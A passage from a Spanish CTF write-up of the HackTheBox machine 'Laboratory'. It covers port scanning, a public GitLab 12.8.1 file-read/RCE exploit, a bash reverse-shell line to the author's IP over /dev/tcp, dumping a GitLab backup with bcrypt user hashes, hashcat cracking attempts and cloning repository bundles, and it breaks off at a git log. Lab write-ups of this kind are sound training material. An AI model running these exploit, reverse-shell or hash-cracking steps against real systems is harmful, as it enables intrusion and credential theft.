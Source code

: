 ```yaml
---
layout      : post
title       : "HackTheBox - Laboratory"
author      : lanz
image       : https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298banner.png
category    : [ htb ]
tags        : [ gitlab, RCE, backup, git, SUID, path-hijacking ]
---
```

Máquina Linux nivel fácil. Tendremos al lobo naranja (GitLab) :P como punto de entrada, jugaremos con Backups y archivos **.bundle**, obtendremos las llaves de la casa y nos haremos dueños de la r(oo)ta mediante un PATH Hijacking.

![298laboratoryHTB](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298laboratoryHTB.png)

### TL;DR (Spanish writeup)

**Creada por**: [0xc45](https://www.hackthebox.eu/profile/73268).

Wenas :3 Nos enfrentaremos al gestor de versiones `GitLab`, usaremos ayuda :O (`/help`) para centrar la búsqueda en la versión del software (**Gitlab 12.8.1**). Jugaremos con un exploit que nos permite ver archivos del sistema pero también obtener una Shell (feita) como el usuario **git** en el hostname `git.laboratory.htb`.

Enumerando y buscando auxilio, usaremos `gitlab-backup` para obtener un `backup` de dos repositorios. Usaremos archivos `.bundle` para generar un `clone` de cada repo. En uno nos encontraremos cosas personales :O, usaremos la llave privada **id_rsa** para migrar al usuario **dexter**.

Buscando archivos relacionados con **dexter** encontramos un `SUID` llamativo, jugando con `cat` y `ltrace` vemos que está llamando al binario `chmod` sin ruta absoluta. Aprovecharemos esto para generar un `PATH Hijacking` donde al ejecutar el archivo interesante, obtengamos una Shell como el usuario **root**.

#### Clasificación de la máquina.

<img src="https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298statistics.png" style="display: block; margin-left: auto; margin-right: auto; width: 90%;"/>

Bastante RealG4Life. A darleeeeeeeeee.

> Escribo para tener mis "notas", por si algun dia se me olvida todo, leer esto y reencontrarme :) además de enfocarme en plasmar mis errores y exitos (por si ves mucho texto).

...

Tendremos como siempre 3 fases:

1. [Enumeración](#enumeracion)
2. [Explotación](#explotacion)
3. [Escalada de privilegios](#escalada-de-privilegios)

...

## Enumeración [#](#enumeracion) {#enumeracion}

Como siempre empezamos realizando un escaneo de puertos sobre la maquina para saber que servicios esta corriendo.

```bash
–» nmap -p- --open -v 10.10.10.216 -oG initScan
```

| Parámetro  | Descripción   |
| -----------|:------------- |
| -p-        | Escanea todos los 65535                                                                                  |
| --open     | Solo los puertos que están abiertos                                                                      |
| -v         | Permite ver en consola lo que va encontrando                                                             |
| -oG        | Guarda el output en un archivo con formato grepeable para usar una [función](https://raw.githubusercontent.com/lanzt/Writeups/master/HTB/Magic/images/extractPorts.png) de [S4vitar](https://s4vitar.github.io/) que me extrae los puertos en la clipboard      |

```bash
–» cat initScan 
# Nmap 7.80 scan initiated Thu Jan 28 25:25:25 2021 as: nmap -p- --open -v -oG initScan 10.10.10.216
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.10.10.216 ()   Status: Up
Host: 10.10.10.216 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///, 443/open/tcp//https///        Ignored State: filtered (65532)
# Nmap done at Thu Jan 28 25:25:25 2021 -- 1 IP address (1 host up) scanned in 396.96 seconds
```

Muy bien, tenemos los siguientes servicios:

| Puerto | Descripción |
| ------ | :---------- |
| 22     | [SSH](https://es.wikipedia.org/wiki/Secure_Shell) |
| 80     | [HTTP](https://es.wikipedia.org/wiki/Protocolo_de_transferencia_de_hipertexto) |
| 443    | [HTTPS (TLS)](https://sectigostore.com/blog/port-443-everything-you-need-to-know-about-https-443/) |

Hagamos nuestro escaneo de versiones y scripts con base en cada puerto, con ello obtenemos información más detallada de cada servicio:

```bash
–» nmap -p 22,80,443 -sC -sV 10.10.10.216 -oN portScan
```

| Parámetro | Descripción   |
| ----------|:------------- |
| -p        | Escaneo de los puertos obtenidos                       |
| -sC       | Muestra todos los scripts relacionados con el servicio |
| -sV       | Nos permite ver la versión del servicio                |
| -oN       | Guarda el output en un archivo                         |

```bash
–» cat portScan 
# Nmap 7.80 scan initiated Thu Jan 28 25:25:25 2021 as: nmap -p 22,80,443 -sC -sV -oN portScan 10.10.10.216
Nmap scan report for 10.10.10.216
Host is up (0.19s latency).

PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.1 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http     Apache httpd 2.4.41
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Did not follow redirect to https://laboratory.htb/
443/tcp open  ssl/http Apache httpd 2.4.41 ((Ubuntu))
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: The Laboratory
| ssl-cert: Subject: commonName=laboratory.htb
| Subject Alternative Name: DNS:git.laboratory.htb
| Not valid before: 2020-07-05T10:39:28
|_Not valid after:  2024-03-03T10:39:28
| tls-alpn: 
|_  http/1.1
Service Info: Host: laboratory.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Jan 28 25:25:25 2021 -- 1 IP address (1 host up) scanned in 32.26 seconds
```

Tenemos:

| Puerto | Servicio | Versión |
| :----- | :------- | :-------|
| 22     | SSH      | OpenSSH 8.2p1 Ubuntu |
| 80     | HTTP     | Apache httpd 2.4.41  |
| 443    | HTTPS    | Apache httpd 2.4.41  |

Vemos cositas:

* Hace una redirección al dominio `laboratory.htb` pero al del puerto `443`.
* También al parecer tenemos otro dominio: `git.laboratory.htb`.

Empecemos a enumerar cada servicio :)

...

### Puerto 80 [⌖](#puerto-80) {#puerto-80}

Efectivamente nos redirecciona al dominio `laboratory.htb`, lo agregamos al archivo `/etc/hosts` para corregir la resolución:

* Info sobre el archivo `/etc/hosts`. - [e-logicasoftware.com](http://e-logicasoftware.com/tutoriales/tutoriales/linuxcurso/base/linux065.html)

```bash
–» cat /etc/hosts
...
10.10.10.216  laboratory.htb git.laboratory.htb
...
```

Y ahora volvemos a probar:

![298page80](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80.png)

Perfecto, veamos que podemos obtener de ahí...

Me pareció interesante y algo críptico este apartado, así que mejor guardarlo:

![298page80_ourCustomers](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_ourCustomers.png)

Pero de resto no tenemos algo interesante... Recordemos el otro dominio que vimos en el escaneo (`git.laboratory.htb`), vamos allí a ver sí si funciona:

![298page80_git_domain](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_domain.png)

Nice, tenemos `GitLab` activo, con la posibilidad de crearnos una cuenta e ingresar, hagámoslo y veamos que hay dentro...

Pero al momento de intentar registrarnos con el correo `lanz@lanz.com` (y otros diferentes) obtenemos este error:

```html
1 error prohibited this user from being saved:

    Email domain is not authorized for sign-up
```

Acá ya me iba a empezar a complicar, pero recordé... y si probamos con el dominio `laboratory.htb`? Osea `lanz@laboratory.htb`:

![298page80_git_dashboard](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_dashboard.png)

Pos sí, logramos entrar, démosle una vuelta a la página...

En `/help` vemos la versión:

![298page80_git_version](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page80_git_version.png)

**Acá tuve algo de suerte**, hace poco había estado jugando con el exploit que vamos a usar:

Buscando en la web sobre esa versión y sus posibles exploits, nos encontramos este script que se aprovecha de una vulnerabilidad combinando dos vectores de ataque para ya sea, obtener información de los archivos dentro del sistema ([Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)) o ejecutar comandos en el sistema (RCE).

Todo el proceso se logra gracias al ([Path Traversal]()), ya que extrae la `secret_key_base` usada por `Rails`. Para posteriormente obtener ejecución de comandos explotando una deserialización de una cookie llamada: `experimentation_subject_id`.

* Descripción de la vulnerabilidad. - [rapid7.com/gitlab_file_read_rce](https://www.rapid7.com/db/modules/exploit/multi/http/gitlab_file_read_rce/).
* Exploit que usaremos creado por `dotPY-hax`. - [github.com/dotPY-hax/gitlab_RCE](https://github.com/dotPY-hax/gitlab_RCE)

Si revisamos el código, solo debemos cambiar: el puerto al cual queremos que se genere la reverse Shell y el dominio con el que creara la cuenta:

![298bash_exploit_reviewcode](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_reviewcode.png)

Ejecutemos:

```bash
–» python3 gitlab_rce.py
usage: gitlab_rce.py <http://gitlab:port> <local-ip>

–» python3 gitlab_rce.py https://git.laboratory.htb 10.10.14.159
...
```

![298bash_exploit_running_choose](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_running_choose.png)

Elejimos la `opcion 2` y nos indica esto:

```bash
Start a listener on port 4433 and hit enter (nc -vlnp 4433)
```

Nos ponemos en escucha:

```bash
–» nc -lvp 4433
```

Y damos `enter`:

![298bash_exploit_running_done](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298bash_exploit_running_done.png)

Perfecto, tamos dentro de la máquina, ahora a enumerar. Pero primero hagámosle un tratamiento a nuestra Shell para que sea completamente interactiva, ya que si por alguna razón queremos ver los comandos anteriores o hacer `CTRL + C` no podremos:

* S4vitar nos explica lo que debemos hacer para conseguir una [Shell completamente interactiva (tratamiento de la TTY)](https://www.youtube.com/watch?v=GVjNI-cPG6M&t=1689).

Pero al intentarlo (o pues a mí me paso) la Shell (de `ruby` como indicaba el exploit: **"!!RUBY REVERSE SHELL IS VERY UNRELIABLE!! WIP"**) queda estática y no hace nada :( Así que probemos a generarnos una nueva pero en este caso ya con `bash`:

Primero nos volvemos a poner en escucha, pero ahora en otro puerto, en mi caso el `4434` y ejecutamos en la Shell de `git`:

```bash
bash -c 'bash -i >& /dev/tcp/10.10.14.159/4434 0>&1'
```

```bash
–» nc -lvp 4434
listening on [any] 4434 ...
connect to [10.10.14.159] from laboratory.htb [10.10.10.216] 36932
bash: cannot set terminal process group (398): Inappropriate ioctl for device
bash: no job control in this shell
git@git:~/gitlab-rails/working$ id
id
uid=998(git) gid=998(git) groups=998(git)
git@git:~/gitlab-rails/working$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
git@git:~/gitlab-rails/working$ id
id
uid=998(git) gid=998(git) groups=998(git)
git@git:~/gitlab-rails/working$
```

Perfecto, ahora si procedemos a hacer el tratamiento de la TTY y a enumerar...

Después de buscar y buscar por todos lados me perdí y no sabía que más hacer, subí `linpeas`, enumere servicios mediante `ps auxwww` y con el archivo `/proc/net/tcp` (que tiene los números de los puertos donde hay algún servicio corriendo). Revise archivos locos por X parte, di vueltas por la mayoría de carpetas y con `grep` no encontraba nada... Así que busque ayuda con el siempre fiable [@TazWake](https://www.hackthebox.eu/profile/49335), usuario de la plataforma, moderador y persona superpresta a ayudar, que con una sola frase: 

> "Have you tried `gitlab-backup`?"

Me soluciono el dilema y además entendí que no, no había intentado esa herramienta :(

Si la usamos en pocos segundos obtenemos un archivo `.tar` con el backup del repositorio, si nos creamos una carpeta en `/dev/shm` (archivos temporales) llamada `test/` donde podamos extraer toda la data sin molestar a nadie, tenemos:

```bash
git@git:/dev/shm/test$ gitlab-backup 
2021-01-29 22:45:49 +0000 -- Dumping database ... 
Dumping PostgreSQL database gitlabhq_production ... [DONE]
2021-01-29 22:45:51 +0000 -- done
2021-01-29 22:45:51 +0000 -- Dumping repositories ...
 * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
[SKIPPED] Wiki
 * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
[SKIPPED] Wiki
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping uploads ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping builds ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping artifacts ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping pages ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping lfs objects ... 
2021-01-29 22:45:53 +0000 -- done
2021-01-29 22:45:53 +0000 -- Dumping container registry images ... 
2021-01-29 22:45:53 +0000 -- [DISABLED]
Creating backup archive: 1612133153_2021_01_29_12.8.1_gitlab_backup.tar ... done
Uploading backup archive to remote storage  ... skipped
Deleting tmp directories ... done
done
done
done
done
done
done
done
Deleting old backups ... skipping
Warning: Your gitlab.rb and gitlab-secrets.json files contain sensitive data 
and are not included in this backup. You will need these files to restore a backup.
Please back them up manually.
Backup task is done.
git@git:/dev/shm/test$
```

Buscamos el archivo para moverlo a nuestra carpeta:

```bash
git@git:/dev/shm/test$ find / -name 1611956382_2021_01_29_12.8.1_gitlab_backup.tar 2>/dev/null
/var/opt/gitlab/backups/1611956382_2021_01_29_12.8.1_gitlab_backup.tar
git@git:/dev/shm/test$ mv /var/opt/gitlab/backups/1611956382_2021_01_29_12.8.1_gitlab_backup.tar .
git@git:/dev/shm/test$ ls
1611956382_2021_01_29_12.8.1_gitlab_backup.tar
git@git:/dev/shm/test$ 
```

Lo descomprimimos:

```bash
git@git:/dev/shm/test$ tar -xvf 1611956382_2021_01_29_12.8.1_gitlab_backup.tar #e(x)traemos y (v)emos por pantalla lo que va pasando con el (f)ile.
repositories/              
repositories/@hashed/
...
...
db/
db/database.sql.gz
uploads.tar.gz
builds.tar.gz
artifacts.tar.gz
pages.tar.gz
lfs.tar.gz
backup_information.yml
git@git:/dev/shm/test$ 
```

Perfecto, nos llama la atención el archivo `database.sql.gz`, procedamos a descomprimirlo también:

#### ▿ Rabbit hole :P

```bash
git@git:/dev/shm/test/db$ ls
database.sql.gz
git@git:/dev/shm/test/db$ gzip -d database.sql.gz 
git@git:/dev/shm/test/db$ ls
database.sql
git@git:/dev/shm/test/db$ 
```

Tiene un montón de información, después de jugar un poco, intente buscar mi usuario creado en `GitLab` al inicio de la máquina:

```bash
git@git:/dev/shm/test/db$ grep -i "lanz" database.sql 
43      lanz    lanz    43      2021-01-29 18:48:12.104345      2021-01-29 18:48:12.104345      \N              \N      f       f       20      t       ready   \N      \N      \N      \N     \N       \N      \N      \N      f       48      1179648 \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      \N      1       \N      \N      \N      \N
101     43      Namespace       lanz    2021-01-29 18:48:12.109994      2021-01-29 18:48:12.109994      lanz
43      lanz@laboratory.htb     $2a$10$d1iFT3BRnuqkzprchrPof.9Mv.DCjqPxziHowFhSfP7bFg6.HzYHu    \N      \N      \N      1       2021-01-29 18:48:12.120568      2021-01-29 18:48:12.120568     172.17.0.1       172.17.0.1      2021-01-29 18:48:12.096365      2021-01-29 18:48:12.858875      lanz    f       10                              \N      0       \N      lanz    t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:48:11.977481      \N      \N      f               \N      lanz@laboratory.htb     f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1jwc9nbz418ndij73kh3hw7u8       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      RJMyoUczVKQogLZxez-G    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
git@git:/dev/shm/test/db$ 
```

Perfecto, vemos el correo y además un `hash`... Pero pues el mío no interesa, veamos si podemos obtener más usuarios apoyándonos de las opciones `-A` (After) y `-B` (Before), para listar lineas antes y después de nuestra búsqueda:

```bash
git@git:/dev/shm/test/db$ grep -i "lanz@" -B 3 -A 3 database.sql 
30      test123@laboratory.htb  $2a$10$i2s70e/JnuB7PZgwsIKXq.adqFoTmlY4fYPyrpn3.fe6J5seXqJYq    \N      \N      \N      1       2021-01-29 14:34:05.460662      2021-01-29 14:34:05.460662     172.17.0.1       172.17.0.1      2021-01-29 14:34:05.445185      2021-01-29 14:34:05.775697      test    f       10                              \N      0       \N      test123 t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 14:34:05.344875      \N      \N      f               \N      test123@laboratory.htb  f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       ak3v7vhrg4ncr5fydb5sidjro       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      qKbE4G2UQ9mCEgaWYM2m    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
1       admin@example.com       $2a$10$.9fAYoRs9/Erjs0FH.OlN.OH.L4cj2at6RfTmIQ3CTEl2D4ylgJ6i    \N      \N      \N      9       2021-01-29 19:26:03.945205      2020-10-20 18:39:24.13278      172.17.0.1       172.17.0.1      2020-07-02 18:02:18.859553      2021-01-29 19:26:03.976187      Dexter McPherson        t       100000                                  0       \N      dexter tf       active  1       \N      \N      \N      avatar.png      6nEdboVbdcGyZmgaJ-ym    2020-07-02 18:02:18.623133      2020-07-02 18:37:11.372854      dexter@laboratory.htb   f              \N       admin@example.com       f       f               \N      \N      \N      f       \N              0       2       \N      0       f       \N      \N      \N      f       bonf6hqghs7dp26rjj6f3w2w4               f       f       48      \N      2021-01-29      f       en      \N      \N      \N      \N      1       \N      RvtN2a2xGmyx2-fFL4T4    f       \N      f       \N     \N       \N      \N      \N      \N      \N      3
42      exp101t@laboratory.htb  $2a$10$ICZBhypCVivQKB0n8YIxNuGr/YYMa4A9zGtOM0seJflZ7jiVCHfKG    \N      \N      \N      1       2021-01-29 18:47:30.823162      2021-01-29 18:47:30.823162     172.17.0.1       172.17.0.1      2021-01-29 18:47:30.785264      2021-01-29 19:15:46.002469      exp101t f       10                              \N      0       \N      exp101t t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:47:30.66866       \N      \N      f               \N      exp101t@laboratory.htb  f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       c30j1n6akc41gq3xnlbh3jxmp       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      5f1AHFrApfeU4CqRs57H    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
43      lanz@laboratory.htb     $2a$10$d1iFT3BRnuqkzprchrPof.9Mv.DCjqPxziHowFhSfP7bFg6.HzYHu    \N      \N      \N      1       2021-01-29 18:48:12.120568      2021-01-29 18:48:12.120568     172.17.0.1       172.17.0.1      2021-01-29 18:48:12.096365      2021-01-29 18:48:12.858875      lanz    f       10                              \N      0       \N      lanz    t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 18:48:11.977481      \N      \N      f               \N      lanz@laboratory.htb     f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1jwc9nbz418ndij73kh3hw7u8       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      RJMyoUczVKQogLZxez-G    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
4       seven@laboratory.htb    $2a$10$HkBO3A4k6G42X85r0ZIpO.RlSLCg9igEaiiU8r44Ymd7e2nWcjixC    \N      \N      \N      3       2020-09-05 19:01:10.34461       2020-07-17 19:03:51.88634      172.17.0.1       172.17.0.1      2020-07-17 15:57:57.446229      2020-09-05 19:01:10.459181      Seven   f       100000                                  0       \N      seven   t       f      active   1       \N      \N      \N      avatar.png      \N      2020-07-17 15:57:57.260823      \N      \N      f               \N      seven@laboratory.htb    f       f               \N     \N       \N      f       \N              0       2       \N      0       f       \N      \N      \N      f       bvm8qb1ou3vg35u3tchcfzgp1               f       f       48      \N      2020-09-05      f       en      \N      \N      \N      \N      1       \N      2sHXWyKj3rwag36sVeP-    f       \N      f       seven@laboratory.htb    \N      \N      \N      \N      \N      \N     4
3       ghost@example.com               \N      \N      \N      0       \N      \N      \N      \N      2020-07-02 19:52:08.183475      2020-07-02 19:52:08.183475      Ghost User      f      100000                           This is a "Ghost User", created to hold all issues authored by users that have since been deleted. This user cannot be removed. 0       \N      ghost   t      factive  1       \N      \N      \N      \N      tzyprXQ5VMAHsEjuex6L    \N      2020-07-02 19:52:08.184131      \N      f               \N      \N      f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       1xvejv7i8oe8wluh6jtgeimge       \N      f       f       48      t       \N      f      en       \N      \N      \N      \N      1       \N      \N      f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
5       u@laboratory.htb        $2a$10$sXPLtsEKOUD.xg5WOj3B6.zuWNhVj/rYt4B2z0yAxYDkgswbJHJIW    \N      \N      \N      1       2021-01-29 07:09:51.640403      2021-01-29 07:09:51.640403     172.17.0.1       172.17.0.1      2021-01-29 07:09:51.603953      2021-01-29 07:09:52.168008      normann f       10                              \N      0       \N      normann t       f      active   1       \N      \N      \N      \N      \N      2021-01-29 07:09:51.42427       \N      \N      f               \N      u@laboratory.htb        f       f       \N      \N      \N     \N       f       \N              0       2       \N      0       f       \N      \N      \N      f       5oi076s0mnm5bhutjonx9tyqv       \N      f       f       48      \N      2021-01-29     fen      \N      \N      \N      \N      1       \N      Zsn5bxeDhqK47W89HrB7    f       \N      \N      \N      \N      \N      \N      \N      \N      \N      \N
git@git:/dev/shm/test/db$ 
```

Es mucho texto y puede verse confuso, lo sé, pero podemos destacar la fecha de creación de los usuarios, si nos guiamos por eso, tenemos 3 interesantes:

| username@correo      | Nombre           | Hash                                                         | Fecha creación |
| -------------------- | :--------------- |:------------------------------------------------------------ | :------------- |
| admin@example.com    | Dexter McPherson | $2a$10$.9fAYoRs9/Erjs0FH.OlN.OH.L4cj2at6RfTmIQ3CTEl2D4ylgJ6i | 2020-07-02     |
| seven@laboratory.htb | Seven            | $2a$10$HkBO3A4k6G42X85r0ZIpO.RlSLCg9igEaiiU8r44Ymd7e2nWcjixC | 2020-07-17     |
| ghost@example.com    | ghost            | -                                                            | 2020-07-02     | 

Perfeeecto, pues enfoquemosnos en esos hashes y veamos si los podemos crackear...

Apoyado de [todos los ejemplos de hashes](https://hashcat.net/wiki/doku.php?id=example_hashes) que tiene [hashcat](https://hashcat.net/wiki/doku.php?id=example_hashes) en su wiki, encontramos que son tipo `bcrypt $2*$, Blowfish (Unix)`:

![298page_example_hashcat_bcrypt](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/laboratory/298page_example_hashcat_bcryp.png)

Guardamos los hashes en un archivo y procedemos, usare `hashcat`:

```bash
–» hashcat -m 3200 -a 0 hashes_t /usr/share/wordlists/rockyou.txt -o cracked_bro
```

* `-m`: Tipo de hash.
* `-a`: Le indicamos que haga un ataque en modo diccionario.
* `hashes_t`: Archivo con los hash.
* `./rockyou.txt`: Diccionario que usaremos.
* `-o`: La salida la guarda en el archivo **cracked_bro**.

Pero nada, no lo logramos... Así que de nuevo, estaba full estancado y pedí ayuda: La ayuda me indico que fuera cauteloso con los archivos del `.tar` y que además me fijara en el output del proceso... (Que lo puse arriba y ni me había fijado):

```bash
...
 * dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
[SKIPPED] Wiki
 * dexter/securedocker (@hashed/19/58/19581e27de7ced00ff1ce50b2047e7a567c76b1cbaebabe5ef03f7c3017bb5b7) ... [DONE]
[SKIPPED] Wiki
...
```

Donde tenemos dos proyectos:

* `securewebsite`.
* `securedocker`.

Y tenemos una ruta para cada uno, inspeccionemos su contenido:

```bash
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ ls -la
total 0
drwxr-xr-x 2 git git 40 Jan 31 22:45 .
drwxr-xr-x 3 git git 80 Jan 31 22:45 ..
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ cd ..
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 2 git git      40 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
git@git:/dev/shm/test/repositories/@hashed/2c/62$
```

No tiene ningún contenido la carpeta, pero una atrás contiene un archivo `.bundle`... Después de otra vez estar perdido, buscando por internet nos damos cuenta de una genialidad con los archivos `.bundle`:

> .. you want a single file that has your whole project and all the commits you’ve made. You can use `git bundle` for this! [blog.tplus1/git-bundle](https://blog.tplus1.com/blog/2018/12/11/git-bundle-converts-your-whole-repository-into-a-single-file-kind-of-like-webpack/).

Esto está muy loco porque significa que todo nuestro repositorio, commits, logs, etc. Lo podemos guardar en un único archivo, que en el caso ya de querer volver a ver los archivos, logs, commits del repositorio, lo único que debemos hacer es un `git clone` al `.bundle`:

> ```sh
> $ git clone -b master /tmp/myproject.bundle myproject2
> $ cd myproject2
> ```
>> [blog.tplus1/git-bundle](https://blog.tplus1.com/blog/2018/12/11/git-bundle-converts-your-whole-repository-into-a-single-file-kind-of-like-webpack/).

Pues apoyados en esto, probemos a generar los dos repositorios y ver que podemos encontrar útil:

#### ¬ securewebsite

```
* dexter/securewebsite (@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3) ... [DONE]
```

```bash
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 2 git git      40 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle
git@git:/dev/shm/test/repositories/@hashed/2c/62$ git clone 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle 
Cloning into '2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3'...
Receiving objects: 100% (66/66), 7.21 MiB | 78.58 MiB/s, done.
Resolving deltas: 100% (5/5), done.
git@git:/dev/shm/test/repositories/@hashed/2c/62$ ls -la
total 7388
drwxr-xr-x 3 git git      80 Jan 31 22:45 .
drwxr-xr-x 3 git git      60 Jan 31 22:45 ..
drwxr-xr-x 5 git git     140 Jan 31 23:10 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
-rw-r--r-- 1 git git 7563905 Jan 31 22:45 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3.bundle

git@git:/dev/shm/test/repositories/@hashed/2c/62$ cd 2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ ls -la
total 12
drwxr-xr-x 5 git git  140 Jan 31 23:10 .
drwxr-xr-x 3 git git   80 Jan 31 22:45 ..
drwxr-xr-x 7 git git  240 Jan 31 23:10 .git
-rw-r--r-- 1 git git  430 Jan 31 23:10 CREDITS.txt
drwxr-xr-x 6 git git  120 Jan 31 23:10 assets
drwxr-xr-x 2 git git  180 Jan 31 23:10 images
-rw-r--r-- 1 git git 7045 Jan 31 23:10 index.html
```

```git
git@git:/dev/shm/test/repositories/@hashed/2c/62/2c624232cdd221771294dfbb310aca000a0df6ac8b66b696d90ef06fdefb64a3$ git log
